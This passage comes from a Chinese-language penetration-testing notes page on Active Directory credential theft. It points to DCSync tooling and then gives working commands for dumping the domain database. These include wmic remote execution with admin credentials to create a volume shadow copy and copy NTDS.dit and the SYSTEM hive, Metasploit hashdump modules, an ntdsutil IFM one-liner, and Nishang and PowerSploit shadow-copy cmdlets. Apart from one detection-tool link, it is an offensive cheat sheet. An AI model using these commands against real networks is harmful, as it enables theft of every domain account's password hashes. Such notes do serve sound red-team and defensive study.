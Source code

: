**利用方法**
- mimikatz

    - [mimikatz 笔记](../../安全工具/Mimikatz.md#DCSync)

- powershell
    - https://gist.github.com/monoxgas/9d238accd969550136db

**检测方法**
- [cyberark/ACLight](https://github.com/cyberark/ACLight) - 枚举 Active Directory 中所有用户的 ACL，标记出特权帐户

#### 卷影复制

卷影副本，也称为快照，是存储在 Data Protection Manager (DPM) 服务器上的副本的时间点副本。副本是文件服务器上单个卷的受保护共享、文件夹和文件的完整时间点副本。

**WMIC**
```
wmic /node:AD /user:PENTESTAdministrator /password:123qweQWE!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:vss.log"
wmic /node:AD /user:PENTESTadministrator /password:123qwe!@#!@# process call create "cmd /c copy 卷影IDWindowsNTDSNTDS.dit C:windowstempNTDS.dit 2>&1"
wmic /node:AD /user:PENTESTadministrator /password:123qwe!@# process call create "cmd /c copy 卷影IDWindowsSystem32configSYSTEM c:windowstempSYSTEM.hive 2>&1"

net use k: \pentest.comc$
```

**metasploit**
```bash
auxiliary/admin/smb/psexec_ntdsgrab
windows/gather/credentials/domain_hashdump
hashdump
```

**NTDSUtil**

Ntdsutil.exe 是一个为 Active Directory 提供管理设施的命令行工具。

使用 NTDSUTIL 的 IFM 创建（VSS 卷影副本）在 DC 上本地引用 ntds.dit

NTDSUtil 是本地处理 AD DB 的命令实用程序（ntds.dit），并为 DCPromo 启用 IFM 集创建。IFM 与 DCPromo 一起用于“从媒体安装”,因此被升级的服务器不需要通过网络从另一个 DC 复制域数据。
```
ntdsutil "ac i ntds" "ifm" "create full c:temp" q q
```
当创建一个 IFM 时，VSS 快照被拍摄，挂载，ntds.dit 文件和相关数据被复制到目标文件夹中。

**Nishang**
```
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

**PowerSploit**
```
Import-Module .\VolumeShadowCopyTools.ps1
New-VolumeShadowCopy -Volume C:\
Get-VolumeShadowCopy
```
